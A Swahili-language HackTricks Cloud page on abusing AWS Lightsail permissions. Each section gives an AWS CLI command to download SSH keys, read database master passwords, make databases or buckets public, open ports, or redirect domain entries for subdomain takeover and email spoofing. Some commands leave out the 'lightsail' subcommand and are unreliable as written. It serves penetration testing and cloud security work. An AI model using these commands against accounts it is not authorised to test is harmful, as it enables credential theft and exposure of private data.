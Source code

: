 # AWS - Lightsail Privesc

{% hint style="success" %}
Jifunze & zoezi Udukuzi wa AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Mafunzo ya HackTricks ya Mtaalam wa Timu Nyekundu ya AWS (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze & zoezi Udukuzi wa GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Mafunzo ya HackTricks ya Mtaalam wa Timu Nyekundu ya GCP (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa michango**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}

## Lightsail

Kwa habari zaidi kuhusu Lightsail angalia:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Ni muhimu kutambua kuwa Lightsail **haitumii majukumu ya IAM yanayomilikiwa na mtumiaji** bali yanamilikiwa na akaunti iliyosimamiwa na AWS, hivyo huwezi kutumia huduma hii kwa privesc. Hata hivyo, **data nyeti** kama vile nambari, funguo za API na maelezo ya database yanaweza kupatikana kwenye huduma hii.
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

Ruhusa hii itakuruhusu kupata funguo za SSH za kufikia mifano:
```
aws lightsail download-default-key-pair
```
**Athari Inayoweza Kutokea:** Pata habari nyeti ndani ya mifano.

### `lightsail:GetInstanceAccessDetails`

Ruhusa hii itakuruhusu kuzalisha funguo za SSH kupata mifano:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Athari Inayoweza Kutokea:** Pata habari nyeti ndani ya mifano.

### `lightsail:CreateBucketAccessKey`

Ruhusa hii itakuruhusu kupata ufunguo wa kufikia ndoo:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Athari Inayoweza Kutokea:** Pata habari nyeti ndani ya ndoo.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Ruhusa hii itakuruhusu kupata anwani za kuingia kwenye database:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Athari Inayoweza Kutokea:** Pata habari nyeti ndani ya database.

### `lightsail:UpdateRelationalDatabase`

Haki hii itakuruhusu kubadilisha nenosiri la kupata ufikivu wa database:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

Ikiwa database haipo kwa umma, unaweza pia kuifanya kuwa ya umma na ruhusa hizi za

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**Athari Inayowezekana:** Pata habari nyeti ndani ya database.

### `lightsail:OpenInstancePublicPorts`

Ruhusa hii inaruhusu kufungua bandari kwa Mtandao.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Athari Inayoweza Kutokea:** Kufikia bandari nyeti.

### `lightsail:PutInstancePublicPorts`

Ruhusa hii inaruhusu kufungua bandari kwa Mtandao. Tafadhali kumbuka kwamba wito huo utafunga bandari yoyote iliyofunguliwa ambayo haijasanidiwa.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Athari Inayowezekana:** Kufikia bandari nyeti.

### `lightsail:SetResourceAccessForBucket`

Ruhusa hii inaruhusu kutoa upatikanaji wa mifano kwa kikapu bila nyenzo za ziada

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**Madhara Yanayoweza Kutokea:** Upatikanaji mpya wa vikasha vyenye habari nyeti.

### `lightsail:UpdateBucket`

Kwa kibali hiki, mshambuliaji anaweza kutoa akaunti yake ya AWS upatikanaji wa kusoma kwenye vikasha au hata kufanya vikasha kuwa wazi kwa kila mtu:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Athari Inayowezekana:** Upatikanaji mpya wa vikapu vyenye habari nyeti.

### `lightsail:UpdateContainerService`

Kwa idhini hizi, mshambuliaji anaweza kutoa upatikanaji kwa ECRs za kibinafsi kutoka kwa huduma za vyombo.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Athari Inayowezekana:** Pata habari nyeti kutoka kwa ECR ya kibinafsi

### `lightsail:CreateDomainEntry`

Mshambuliaji mwenye idhini hii anaweza kuunda subdomain na kuuelekeza kwa anwani yake ya IP (uchukuzi wa subdomain), au kutengeneza rekodi ya SPF ambayo inamruhusu kudanganya barua pepe kutoka kwa kikoa, au hata kuweka anwani yake ya IP kama kikoa kuu.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Athari Inayoweza Kutokea:** Kumiliki kikoa

### `lightsail:UpdateDomainEntry`

Mshambuliaji mwenye idhini hii anaweza kuunda subdomain na kuuelekeza kwa anwani yake ya IP (umiliki wa subdomain), au kutengeneza rekodi ya SPF inayomruhusu kudanganya barua pepe kutoka kwa kikoa hicho, au hata kuweka anwani yake ya IP kama kikoa kuu.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Athari Inayowezekana:** Kuchukua kikoa

{% hint style="success" %}
Jifunze na zoea Udukuzi wa AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Mafunzo ya HackTricks AWS Timu Nyekundu Mtaalam (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze na zoea Udukuzi wa GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Mafunzo ya HackTricks GCP Timu Nyekundu Mtaalam (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>unga mkono HackTricks</summary>

* Angalia [**mpango wa michango**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
